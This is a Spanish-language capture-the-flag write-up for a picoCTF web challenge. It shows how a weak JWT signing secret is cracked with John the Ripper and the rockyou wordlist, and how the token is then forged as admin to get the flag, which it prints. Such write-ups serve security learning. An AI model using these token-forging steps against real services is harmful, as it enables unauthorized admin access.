 # Descripción
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/61864/` or http://jupiter.challenges.picoctf.org:61864
Hints:
1. What is that cookie?
2. Have you heard of JWT?
# Solución
- creamos un archivo usando nano, en dicho archivo guardamos la cookie que obtenemos en la página al ingresar con cierto usuario
- Y usamos "cat hash" para verificar que el archivo se guardó correctamente
```
┌──(kali㉿kali)-[~/Documents]
└─$ nano hash
                                                                             
┌──(kali㉿kali)-[~/Documents]
└─$ cat hash    
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiJyBvciAxPT0xLS0ifQ.lvwBbyQsl4iD8MrooW8UiUgoWo97k9r4YKmY74UJNas
                                   
```
- Buscamos el archivo "rockyou.txt.gz" ya que ahí se gurdan las contraseñas que se han usado y desde ahí podemos encontrar la contraseña para el admin de la página
```
┌──(kali㉿kali)-[~]
└─$ sudo ls /usr/share/wordlists
amass      dnsmap.txt     john.lst    nmap.lst        wfuzz
dirb       fasttrack.txt  legion      rockyou.txt.gz  wifite.txt
dirbuster  fern-wifi      metasploit  sqlmap.txt
```
- Descomprimimos el archivo y verificamos que se haya hecho
```
┌──(kali㉿kali)-[~]
└─$ sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
┌──(kali㉿kali)-[~]
└─$ sudo ls /usr/share/wordlists                    
amass      dnsmap.txt     john.lst    nmap.lst     wfuzz
dirb       fasttrack.txt  legion      rockyou.txt  wifite.txt
dirbuster  fern-wifi      metasploit  sqlmap.txt

```
- Vemos las contraseñas usando head
```
┌──(kali㉿kali)-[~]
└─$ head /usr/share/wordlists/rockyou.txt   
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
```
- usamos john para encontrar que contraseña fue usada del archivo rockyou
```
-─(kali㉿kali)-[~/Documents]
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:04 DONE (2025-03-29 16:01) 0.2132g/s 1577Kp/s 1577Kc/s 1577KC/s iloveqmc..ilovemymother@
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
- Entonces usamos la página https://jwt.io/ para poder modificar la firma de los tokens usando el token dado en la cookie, ahí ponemos como verificación la contraseña que obtuvimos con "john", también cambiamos el usuario para admin
- Copiamos el nuevo token que se nos da y lo pegamos en la cookie, recargamos y nos dará la bandera
```
picoCTF{jawt_was_just_what_you_thought_1ca14548}
```
# Notas adicionales
# Referencias
- https://jwt.io/
- https://www.youtube.com/watch?v=iaKbvrbcSko&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=10